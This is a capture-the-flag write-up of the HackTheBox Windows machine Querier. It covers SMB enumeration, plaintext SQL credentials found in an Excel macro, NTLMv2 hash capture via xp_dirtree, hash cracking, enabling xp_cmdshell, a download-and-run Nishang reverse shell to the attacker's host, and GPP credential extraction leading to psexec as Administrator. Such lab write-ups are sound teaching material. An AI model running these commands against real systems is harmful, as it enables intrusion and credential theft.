:slug: querier-writeup/
:date: 2019-06-28
:category: attacks
:subtitle: How to solve HTB Querier
:tags: security, htb, pwn, web, windows
:image: cover.png
:alt: New York City Skyline
:description: Querier is a Windows HackTheBox machine with several insecure configurations. This article explains how to use these configurations to gain system access as a user without privileges, and how to escalate to administrator privileges using penetration testing tools.
:keywords: HTB, Security, Web, Writeup, Bounty, Windows
:author: Andrés Tirado
:writer: atirado
:name: Andrés Tirado
:about1: Mechatronic Engineer
:about2: Enjoy the Little Things

= Querier Writeup

In my opinion,
link:https://www.hackthebox.eu/home/machines/profile/175[Querier]
is a great box.
By following the steps below
we will learn a bit about +Windows+
(a widely used operating system) pentesting.
The challenge begins with a public +SMB+;
this is our first challenge level.
Next, we will work with +SQL Server+
and we will need to use a special +SQL+ query
to get the user hash.
Finally, we will take advantage of an insecure configuration
in +Group Policy Preferences+ in +Windows+
to escalate to administrator privileges.


== Scanning Phase

The first thing to do is check the connection
to the machine with a simple +ping+ command.
We need a stable connection
with the box to make sure that
we will not lose our progress.

.Ping
[source, bash]
----
$ ping 10.10.10.125
----

.IP Querier
image::ip.png[ip]

.Doing ping
image::ping.png[ping]

Next, we can use +nmap+ to find open ports in the machine.
A simple port scanning is enough for our purposes.

[source, bash]
----
$ nmap -Pn 10.10.10.125
----

.Port scanning
image::nmap.png[nmap]

We see 4 open ports (+135+, +139+, +445+ and +1433+)
and among these,
we found two interesting services,
+microsoft-ds (SMB)+ in port +445+ and
+ms-sql-s+ in port +1433+.
When we try to access via SMB,
it shows us a shared folder called `Report` with a `.xlsm` file,
the extension indicating a +Microsoft Excel Document+.

.Public share
image::share.png[share]

Then we open the specified file with +Microsoft Excel+ and
a warning message appears telling us that
the file contains a suspicious macro.

.Macro alert
image::alert.png[alert]

We can explore the macro code in +Microsoft Excel+
using the option +Visual Basic+ in the Developer Tab.
The macro has an insecure configuration
of a connection to +SQL Server+,
the credentials are in plain text and now we can use them.
It's a good example of something
that we should never do.

.Macro code
image::macro.png[macro]

== Getting User

Now we can connect to the other interesting service
that we found: +ms-sql-s+.
We use the module +mssqlclient.py+ of +Impacket+
to do queries to the server interactively
using the credentials found in the last step,
for example a query to know the version of +SQL Server+
like the first testing query.

[source, bash]
----
$ mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
----

.Mssql conection
image::mssql-conection.png[mssql-conection]

We will use this service to gain system access,
for example as a user without privileges.
We mount an +SMB+ server in our machine
to capture the authentication of any Windows user,
in this case, the user that executes the service +ms-sql-s+.
We tell it to enter our share
to capture its +NTLMv2+ hash with an +xp_dirtree+ query.
This stored procedure of +SQL Server+
will access our +SMB+ share
to display a list of every folder,
every subfolder, and every file.

[source, bash]
----
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
----

[source, bash]
----
$ smbserver.py -smb2support querier Documents/
----

.User hash
image::mssql-hash.png[mssql-hash]

Then we copy the hash to a plain text file and
use +John the Ripper+ with the dictionary +rockyou.txt+
to crack the captured hash.
We need to specify the correct hash format because
+John the Ripper+ occasionally recognizes your hashes as the wrong type.
This is inevitable because
some hashes look identical,
in this case the correct format for +NTLMv2+ is +netntlmv2+.

[source, bash]
----
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
----

.Runnnig John
image::john.png[john]

Now we can connect to +SQL Server+ as user +mssql-svc+.
We try to execute the command +whoami+, however,
it responds telling us that
component +xp_cmdshell+ is blocked.
Since we are the service administrator,
we can enable it using a few queries.

[source, bash]
----
$ python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
----

.xp_cmdshell disabled
image::user-mssql.png[user-mssql]

[source, bash]
----
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
----

.xp_cmdshell enabled
image::mssql-commands.png[mssql-commands]

Because we can execute commands,
reading the user flag is now possible.

.User flag
image::flag-user.png[flag-user]

== Getting Root

This method of executing commands
may be an inconvenient way to escalate privileges,
so we will upload a shell to the server.
To do this we will use the script +Invoke-PowerShellTcp.ps1+
of +Nishang+ framework.
Before uploading the shell
we add our IP address and
some free port to make the connection.

[source, bash]
----
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
----

.Invoke-PowerShellTcp code
image::ip-shell.png[ip-shell]

Then it is necessary to start an +HTTP server in our machine.
We can do it with +Python3+.

[source, bash]
----
$ python -m http.server
----

.Http server
image::python-server.png[python-server]

To make the server download our file,
we can use +Powershell+ as follows.

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

Now to get an interactive shell
we set our machine to listen +port 30000+ and
execute the script in the +HTB+ machine.

[source, bash]
----
$ nc -lvp 30000
----

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

.Interactive shell
image::shell-nc.png[shell-nc]

At this point we use the module +PowerUp.ps1+
from the +PowerSploit+ collection to scan the system
to find a way to escalate privileges.
We can use the same method as in the last step.
We upload the file to the server with +Python3+.

To execute the script we need to import it first,
next we can run all checks
with the command +Invoke-AllChecks+.
It will output any identifiable vulnerabilities
along with specifications for any abuse functions.

[source, bash]
----
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
----

.Running PowerUp.ps1
image::powerup.png[powerup]

We can see the Administrator credentials
in plain text in the script output.
The script took advantage
of an insecure configuration
in +Group Policy Preferences+ of +Windows+;
it saves credentials with weak encryptions.
It’s time to prove these and
to obtain the root flag.

.Root credentials
image::root-credentials.png[root-credentials]

Finally, we can get an interactive shell
as Administrator with +psxec.py+ from +Impacket+.
With this, we can read the root flag.

[source, bash]
----
$ python psexec.py QUERIER/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125
----

.Running psexec.py
image::psexec.png[psexec]

Another way to get the root flag
could be to find the file
+C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml+
using a native tool like +findstr+ and
decrypt the password using
the +gpp-decrypt+ tool of +Kali Linux+.

.Encrypted password
image::crypt.png[crypt]

.Decrypted password
image::decrypt.png[decrypt]

In this challenge,
we saw some insecure configurations
such as saved credentials in plain text in code.
We also learned how to start an +SMB+ server
in our machine to capture hashes and
finally, we learned and used some important tools
for pentesting in +Windows+ like
+Impacket+, +Nishang+, and +PowerSploit+.
